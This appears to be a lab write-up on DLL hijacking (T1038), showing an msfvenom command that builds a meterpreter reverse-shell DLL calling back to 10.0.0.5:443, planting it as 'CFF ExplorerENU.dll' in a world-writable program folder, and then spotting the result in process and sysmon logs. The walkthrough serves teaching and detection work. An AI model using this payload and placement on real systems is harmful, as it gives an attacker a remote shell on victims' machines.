

# T1038: DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which will give as a meterpreter shell:



```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```



As an example of this technique, we try launching the `CFF Explorer.exe` program installed on the victim host which attempts to load `CFF Explorer Enu.dll` from the location the program is installed. The result -  the DLL cannot be loaded \(note the NAME NOT FOUND\) as the DLL does not exist:


Luckily for the attacker, the location in which the DLL is being looked for - is world writable! The `evil-meterpreter64.dll` is now moved to `C:\Program Files\NTCore\Explorer Suite` and renamed to `CFF ExplorerENU.dll` 


Launching the program again gives different results - DLL is found \(SUCCESS\):


which is good news for the attacker:


## Observations

On the victim system, we can only see rundll32 with no parent process associated and with an established connection - this should raise your suspicion immediately:


Looking at the rundll32 image info, we can see the current directory, which is helpful:



Looking at the sysmon logs gives a better view of what happened - CFF Explorer.exe was started as a process 4856 which then kicked off a rundll32 \(1872\) which then established a connection to 10.0.0.5:




{% embed data="{\"url\":\"https://pentestlab.blog/2017/03/27/dll-hijacking/\",\"type\":\"link\",\"title\":\"DLL Hijacking\",\"description\":\"In Windows environments when an application or a service is starting it looks for a number of DLL’s in order to function properly. If these DLL’s doesn’t exist or are implemented …\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2017/03/generating-malicious-dll.png\",\"width\":726,\"height\":200,\"aspectRatio\":0.27548209366391185}}" %}

  


